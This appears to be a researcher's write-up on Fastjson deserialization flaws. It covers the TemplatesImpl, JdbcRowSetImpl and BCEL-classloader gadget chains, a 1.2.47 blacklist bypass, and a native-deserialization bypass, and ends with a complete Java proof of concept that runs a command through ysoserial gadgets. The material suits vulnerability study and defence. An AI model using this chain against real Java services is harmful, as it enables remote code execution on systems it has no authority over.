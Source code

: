 # Fastjson deserialization

## Analysis

In `Fastjson`, when `AutoType` support is enabled, the `JSON.parse()` method deserializes the class specified by `@type` key to a json string, and the `JSON.parseObject()` method deserializes the json string to the class specified by the method parameter.

When creating a class instance, it will call the `setter` and `getter` methods that meet the conditions in the class through reflection. And it is just the source of the vulnerability.

## TemplatesImpl chain

The `getOutputProperties()` method of the `TemplatesImpl` class calls the `newTransformer()`, so it's obvious. However, we need to note that the `Fastjson` does not deserialize private properties by default. Therefore, it is necessary to enable `SupportNonPublicField` support in order to utilize this chain.

## JdbcRowSetImpl chain

The `setAutoCommit()` method of the `JdbcRowSetImpl` class calls the `connect()` method of the `Connection` class. In the `connect()` method, the `InitialContext.lookup()` method is called, which means the JNDI injection. And the `lookup()` method parameter is the `dataSource` field of the `JdbcRowSetImpl` class.

## BasicDataSource chain

The `getConnection()` method of the `BasicDataSource` class calls the `createDataSource()` method and then calls the `createConnectionFactory()` method. In the `createConnectionFactory()` method, `Class.forName(driverClassName, true, driverClassLoader)` method is called, so that the static code block in the class specified by `driverClassName` will be executed. Therefore, we can set the `driverClassLoader` to the BCEL Classloader and set the `driverClassName` to a string of malicious class bytecodes to load it through the BCEL Classloader.

### BCEL Classloader

The BCEL classloader can deserialize bytecodes into a class, which overrides the Java native `ClassLoader.loadClass()` method. In its `loadClass()` method, it first checks if this string of bytecodes starts with the `$$BCEL$$` string, and if so, subsequent bytecodes will be decoded.

## Fastjson-1.2.47

In the `fastjson-1.2.47`, it doesn't just set the whitelist and blacklist to filter the types of deserialized classes. And if the class is in the blacklist, it will lookup the corresponding class from `TypeUtils.mappings` and `deserializers`. However it can be exploited to bypass the whitelist and blacklist.

If the `@type` key is the `Class`, it will be handled through `MiscCodec.deserialze()` and the corresponding value will be the parameter of the `TypeUtils.loadClass()` to be called. In the `loadClass()` method, the value will be added into the `TypeUtils.mappings`.

Therefore, set the value to the evil class name, so that we can load the evil class to bypass the whitelist and blacklist.

## Native deserialization

Native deserialization refers to the use of Java native deserialization `ObjectInputStream.readObject()` as the source to trigger deserialization vulnerabilities.

In `Fastjson`, the `JSONArray` class inherits the Serializable interface, and has a `toString()` method. In that method, the `toJSONString()` method will be called, which in turn triggers the `getter` method of the specified class. Therefore, we can trigger a deserialization vulnerability by calling the `toString()` method of the `JSONArray` class from the `readObject()` method of the `BadAttributeValueExpException` class.

However, starting from `Fastjson-1.2.49`, the `JSONArray` class has implemented the `readObject()` method, which checks the type of the class to be deserialized by calling the `SecureObjectInputStream.resolveClass()` method. Fortunately, due to incorrect coding, deserializing the `Reference` class can bypass the call to the `resolveClass()` method.  At the same time, when adding the same object to the `List`, `Set`, and `Map` classes, the duplicated object will be written as the `Reference` class.

### Code

```java
import com.alibaba.fastjson.JSONArray;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Exp {
    public static void main(String[] args) throws Exception {
        Object template = Gadgets.createTemplatesImpl("calc");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(template);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field declaredField = badAttributeValueExpException.getClass().getDeclaredField("val");
        Reflections.setAccessible(declaredField);
        declaredField.set(badAttributeValueExpException, jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(template, badAttributeValueExpException);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```
